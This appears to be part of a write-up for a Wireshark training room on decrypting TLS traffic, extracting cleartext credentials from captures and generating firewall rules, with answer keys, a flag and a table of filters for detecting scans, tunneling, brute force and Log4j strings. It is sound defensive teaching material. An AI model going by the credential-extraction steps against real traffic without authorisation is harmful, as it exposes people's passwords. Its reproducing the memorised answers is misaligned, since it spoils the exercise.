**2. Decrypt the traffic with the "KeysLogFile.txt" file. What is the number of HTTP2 packets?**



- **Answer: 115**

**3. Go to Frame 322. What is the authority header of the HTTP2 packet? (Enter the address in defanged format.)**



- **Answer: safebrowsing[.]googleapis[.]com**

**4. Investigate the decrypted packets and find the flag! What is the flag?**



- **Answer: FLAG{THM-PACKETMASTER}**

---

## Task 9 – Bonus: Hunt Cleartext Credentials

### Key Concepts

Wireshark 3.1+ includes a built-in Credentials feature that automatically extracts cleartext credentials from supported protocols. Access via: **Tools > Credentials**

The feature parses the capture and surfaces credentials without requiring manual filter chaining. Each row in the Credentials window is clickable and navigates directly to the relevant packet.

**Supported dissectors:** FTP, HTTP, IMAP, POP, SMTP

### Credentials Window Fields

| Field | Description |
|-------|------------|
| Packet number | Clicking navigates to the packet containing the password |
| Protocol | Which cleartext protocol the credential was found in |
| Username | Clicking navigates to the packet containing the username |
| Additional info | Packet number containing the username |

### Task Questions

**1. Use the "Desktop/exercise-pcaps/bonus/Bonus-exercise.pcap" file. What is the packet number of the credentials using "HTTP Basic Auth"?**



- **Answer: 237**

**2. What is the packet number where "empty password" was submitted?**



- **Answer: 170**

---

## Task 10 – Bonus: Actionable Results

### Key Concepts

Wireshark can generate ready-to-deploy firewall rules from any selected packet. Access via: **Tools > Firewall ACL Rules**

Rules are generated for the outside interface of the firewall. The tool supports both Layer 3 (IP-based) and Layer 4 (port-based) rule types, as well as MAC address rules depending on the platform selected.

### Supported Firewall Platforms

| Platform | Notes |
|----------|-------|
| Netfilter (iptables) | Linux standard |
| Cisco IOS standard | Layer 3 only |
| Cisco IOS extended | Layer 3 + Layer 4 |
| IP Filter (ipfilter) | BSD systems |
| IPFirewall (ipfw) | FreeBSD / macOS |
| Packet filter (pf) | OpenBSD / macOS |
| Windows Firewall (netsh new format) | Modern Windows |
| Windows Firewall (netsh old format) | Legacy Windows |

### Task Questions

**1. Use the "Desktop/exercise-pcaps/bonus/Bonus-exercise.pcap" file. Select packet number 99. Create a rule for "IPFirewall (ipfw)". What is the rule for "denying source IPv4 address"?**



- **Answer: add deny ip from 10.121.70.151 to any in**

**2. Select packet number 231. Create "IPFirewall" rules. What is the rule for "allowing destination MAC address"?**

- **Answer: add allow MAC 00:d0:59:aa:af:80 any in**

---

## Task 11 – Conclusion

### Key Concepts

Wireshark is a powerful manual analysis tool but it is not a detection engine. It does not alert in real time and cannot block traffic. In a production SOC environment, Wireshark is used for deep-dive investigation after a detection has already fired from another system.

IDS/IPS tools (Snort, Zeek) sit inline or on a span port and apply rule sets to traffic automatically, generating alerts without requiring an analyst to manually filter a pcap. Wireshark complements these tools by letting you drill into the raw packets behind an alert.

**Next rooms in the network traffic analysis path:**
- NetworkMiner: host-based artifact extraction from pcaps (files, credentials, images)
- Snort: signature-based IDS/IPS with rule writing
- Zeek: scripted network analysis framework
- Brim: fast pcap and Zeek log querying with Zed language

---

## References

### Wireshark Filter Quick Reference

| Category | Filter |
|----------|--------|
| TCP Connect scan | tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024 |
| SYN scan | tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size <= 1024 |
| UDP closed port | icmp.type==3 and icmp.code==3 |
| ARP poisoning | arp.duplicate-address-detected or arp.duplicate-address-frame |
| DHCP hostname | dhcp.option.hostname contains "keyword" |
| Kerberos username | kerberos.CNameString and !(kerberos.CNameString contains "$") |
| ICMP tunneling | data.len > 64 and icmp |
| DNS tunneling | dns.qry.name.len > 15 and !mdns |
| FTP brute-force | ftp.response.code == 530 |
| Log4j detection | (ip contains "jndi") or (ip contains "Exploit") |
| TLS Client Hello | (http.request or tls.handshake.type == 1) and !(ssdp) |

### Protocol Summary

| Protocol | Port | Cleartext | Key Detection Method |
|----------|------|-----------|---------------------|
| FTP | 21 | Yes | Response codes (530, 331, 213), STOR/CHMOD commands |
| HTTP | 80 | Yes | User-Agent analysis, POST body, Log4j jndi strings |
| HTTPS/TLS | 443 | No (needs keylog) | SNI in Client Hello, HTTP2 post-decryption |
| DNS | 53 | Yes | Query name length, dnscat strings |
| ICMP | N/A | Yes | Payload size (data.len > 64) |
| ARP | N/A | Yes | Opcode, duplicate-address flags |
| DHCP | 67/68 | Yes | Option 12 (hostname), Option 50 (requested IP) |
| Kerberos | 88 | Partial | CNameString (users/hosts), realm |
| NBNS | 137 | Yes | nbns.name |
